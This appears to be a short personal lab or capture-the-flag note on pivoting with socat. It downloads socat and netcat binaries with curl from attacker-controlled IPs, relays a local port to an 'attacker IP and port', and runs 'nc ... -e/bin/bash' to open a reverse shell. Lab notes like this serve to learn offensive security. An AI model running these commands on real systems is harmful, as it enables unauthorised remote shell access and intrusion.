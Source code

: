 
![[Pasted image 20231217173651.png]]
Socat as a way to join two things together -- kind of like the Portal Gun in the Portal games, it creates a link between two different locations.

I have download the socat file for Linux and fire up a web server here.
```
python3 -m http.server 8080
```

```
curl 10.200.105.200/socat -o /tmp/socat && chmod +x /tmp/socat
```
![[Pasted image 20231217175211.png]]

```
curl 10.50.106.240/socat-Sardarji -o socat-sardarji
```

https://exploit-notes.hdks.org/exploit/network/port-forwarding/port-forwarding-with-socat/#port-forwarding-(from-remote-machine)
```
 ./socat-sardarji  tcp-l:8000 tcp:10.50.106.240:4444 &
socat linux binary  machine port       attacker IP and port

./nc-sardarji 127.0.0.1 8000 -e/bin/bash
```
![[Pasted image 20231217212325.png]]
![[Pasted image 20231217212347.png]]


